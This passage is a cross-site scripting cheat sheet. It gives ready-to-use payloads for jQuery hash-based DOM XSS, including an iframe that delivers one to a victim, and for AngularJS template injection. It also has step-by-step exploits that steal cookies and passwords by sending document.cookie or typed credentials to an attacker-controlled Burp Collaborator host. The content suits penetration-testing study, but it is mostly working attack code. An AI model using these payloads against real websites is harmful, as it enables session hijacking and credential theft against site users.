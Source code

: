 As the `hash` is user controllable, an attacker could use this to inject an XSS vector into the `$()` selector sink. More *recent versions of jQuery have patched this particular vulnerability by preventing you from injecting HTML into a selector when the input begins with a hash character* (`#`). However, *you may still find vulnerable code* in the wild.

Exploit :-
```js
https://[Vulnerable Website]/#<img src=1 onerror=print()>

// While Delivering to your victim :-
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=print()>'">
// This is done because we have to make a hash change automatically without user interaction
```



#### DOM XSS in AngularJS
When a site uses the `ng-app` attribute on an HTML element, it will be *processed by AngularJS*. In this case, **AngularJS will execute JavaScript inside double curly braces** that can occur directly in HTML or inside attributes.

Exploit :-
```js
{{constructor.constructor('alert(1)')()}}
OR
{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}
```

For **More Exploits**, [Visit Here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)

---
## Steal Cookies with XSS
1) Find XSS Vulnerability
2) Use Burp Collaborator
3) Exploit Code :-
```js
<script> fetch('https://[burp-collaboratordomain]',{method: 'POST', mode: 'no-cors', body: document.cookie}); </script>
```
OR
Use Pre-Made Scripts From [Here](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)



## Steal Passwords With XSS
- Create a Login Form with username & password in the Vulnerable Input Field
- Exploit
```js
<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
```

